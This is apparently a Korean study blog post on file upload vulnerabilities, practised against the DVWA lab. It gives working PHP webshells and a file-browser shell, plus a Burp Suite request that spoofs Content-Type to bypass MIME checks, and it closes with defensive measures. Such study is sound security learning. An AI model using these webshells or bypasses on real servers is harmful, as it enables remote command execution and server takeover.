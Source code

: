 ```yaml
---
layout: post
title: "파일 업로드 취약점 공부"
date: 2025-08-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

파일 업로드 취약점은 서버 측에서 업로드되는 파일의 확장자나 내용을 제대로 검증하지 않을 때 발생한다. 공격자는 이 취약점을 이용해 악의적인 스크립트 파일(웹쉘)을 서버에 업로드하여 원격에서 시스템 명령어를 실행(RCE)하고 최종적으로 서버의 제어권을 획득할 수 있다.

---

### 2. 주요 우회 기법

단순히 `.php` 파일을 업로드하는 것은 대부분의 필터링에 막히므로 이를 우회하는 기법이 필요하다.

*   ***확장자 필터링 우회:***
    서버가 특정 확장자를 블랙리스트 방식으로 필터링할 때 사용된다. `.php` 대신 `.phtml` · `.php3` · `.inc` 등 웹 서버가 PHP로 해석할 수 있는 다른 확장자를 시도하거나 `shell.pHp`처럼 대소문자를 혼용하여 우회를 시도할 수 있다.

*   ***MIME 타입 검증 우회:***
    서버가 파일 확장자 대신 HTTP 요청 헤더의 `Content-Type`을 기준으로 파일 종류를 판단할 때 사용된다. 이 값은 클라이언트가 보내는 정보이므로 Burp Suite와 같은 프록시 툴을 이용해 `Content-Type: application/x-php`를 `Content-Type: image/jpeg`와 같이 정상적인 이미지 파일처럼 조작하여 필터링을 우회할 수 있다.


---

### 3. 웹쉘 (Webshell)

웹쉘은 웹 서버를 통해 시스템 명령어를 실행할 수 있도록 만들어진 스크립트 파일이다.

#### ***기본 웹쉘***
가장 단순한 형태의 웹쉘은 URL 파라미터를 통해 전달받은 명령어를 그대로 실행하고 결과를 출력한다. `cmd`라는 파라미터로 명령어를 전달받는 예시이다.
```php
<?php
  if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  }
?>
```

이 파일을 `shell.php`로 저장해 업로드하고, 다음과 같이 접근하면 명령어가 실행된다:

```
GET /hackable/uploads/shell.php?cmd=whoami HTTP/1.1
Host: dvwa.local
```

서버 응답은 다음과 같이 `www-data`를 포함한다:

```
HTTP/1.1 200 OK
...

www-data
```

#### ***개선된 웹쉘 (간이 파일 브라우저)***
조금 더 발전된 형태의 웹쉘은 단순히 명령어를 실행하는 것을 넘어 서버의 파일 시스템을 탐색하는 기능을 포함할 수 있다. 아래 코드는 `path` 파라미터로 전달된 경로의 파일과 디렉터리 목록을 보여주는 간단한 파일 브라우저 역할을 한다.
```php
<?php
  $path = isset($_GET['path']) ? $_GET['path'] : '.';
  $files = scandir($path);
  
  foreach($files as $file) {
    // 현재 디렉터리(.)와 상위 디렉터리(..) 링크 생성
    if ($file == '.') {
      echo "<a href='?path={$path}'>.</a><br>";
    } elseif ($file == '..') {
      $parent_path = dirname($path);
      echo "<a href='?path={$parent_path}'>..</a><br>";
    } else {
      echo $file . "<br>";
    }
  }
?>
```

---

### 4. 사용 예시: Burp Suite를 이용한 MIME 타입 우회

서버가 `Content-Type` 헤더만 검증한다면, 공격자는 이를 조작해 PHP 파일을 업로드할 수 있다.

#### ***1. 원본 요청 (차단됨)***
```http
POST /vulnerabilities/upload/ HTTP/1.1
Host: dvwa.local
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...

------WebKitFormBoundary...
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary...
```
→ 이 요청은 대부분의 필터에서 차단된다.

#### ***2. 변조된 요청 (우회 성공)***
Burp Suite에서 `Content-Type`을 `image/jpeg`로 수정:

```http
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg   ← 여기만 바뀜!
```

이 요청을 전송하면 서버가 "이건 이미지야"라고 판단해 파일을 저장한다.

#### ***3. 웹쉘 실행 확인***
업로드 후, 다음 URL로 접근:

```
http://dvwa.local/hackable/uploads/shell.php?cmd=id
```

응답 본문에 다음이 출력되면 성공:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

### 5. 방어 방안

*   ***확장자 화이트리스트:*** `.php`, `.jsp` 등 위험한 확장자를 금지하는 블랙리스트 방식 대신 `.jpg` · `.png` · `.gif` 와 같이 허용된 확장자만 업로드할 수 있도록 화이트리스트 방식을 사용해야 한다.
*   ***파일 내용 검증:*** 확장자나 MIME 타입은 조작될 수 있으므로 `getimagesize()`와 같은 함수를 이용해 파일의 내용이 실제 이미지 데이터인지 검증해야 한다.
*   ***업로드 경로 제어:*** 업로드된 파일이 저장되는 디렉터리는 웹에서 직접 접근할 수 없는 경로(Web Root 외부)에 위치시키거나 만약 웹에서 접근해야 한다면 해당 디렉터리의 스크립트 실행 권한을 제거해야 한다.

<hr class="short-rule">